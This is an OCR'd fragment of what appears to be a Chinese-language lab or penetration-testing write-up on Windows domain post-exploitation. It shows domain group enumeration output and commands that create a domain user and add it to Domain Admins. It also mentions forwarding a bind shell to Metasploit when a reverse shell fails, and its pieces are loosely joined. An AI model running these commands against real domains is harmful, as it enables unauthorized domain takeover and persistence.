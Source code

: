 ![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjeibxV2wCdnsM6ORrfhYVibcKduicOcQEnT57QBCpwncLTRq7pCUW30NiaA/640?wx_fmt=png)

win03 运行：  

```
C:\\Users\\lemon\\Desktop>net group /domain

Group Accounts for \\\\DC1

----------------------------------------------
\*DnsUpdateProxy
\*Domain Admins
\*Domain Computers
\*Domain Controllers
\*Domain Guests
\*Domain Users
\*Enterprise Admins
\*Enterprise Read-only Domain Controllers
\*Group Policy Creator Owners
\*Read-only Domain Controllers
\*Schema Admins
The command completed successfully.
```

```
C:\\Users\\lemon\\Desktop>net group "Domain Admins" /domain
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-----------------------------------------------------------
Administrator
```

可以看到 icmp 进行通信的

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjmXcpx4M62VGDMVTyibhicV5z8MsJAEs8Gdp8F4tLJmcAxH3MW4iadFttw/640?wx_fmt=png)

**Shell 反弹不出的时候** 

主要针对：本机 kali 不是外网或者目标在 dmz 里面反弹不出 shell，可以通过这种直连 shell 然后再通过 http 的端口转发到本地的 metasploit  

```
添加普通域用户
net user lemon iam@L3m0n /add /domain
将普通域用户提升为域管理员
net group "Domain Admins" lemon /add /domain
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjpq2GuxiaT8dYyyETJcANpLKgQRLJaYzWiclYWILibCA1HU5bibms5JibcibQ/640?wx_fmt=png)

```
C:\\Documents and Settings\\Administrator\\Desktop>net config Workstation
Computer name                        \\\\DM\_WIN03
Full Computer name                   DM\_win03.centoso.com
User name                            Administrator

Workstation active on
        NetbiosSmb (000000000000)
        NetBT\_Tcpip\_{6B2553C1-C741-4EE3-AFBF-CE3BA1C9DDF7} (000C2985F6E4)

Software version                     Microsoft Windows Server 2003

Workstation domain                   CENTOSO
Workstation Domain DNS Name          centoso.com
Logon domain                         DM\_WIN03

```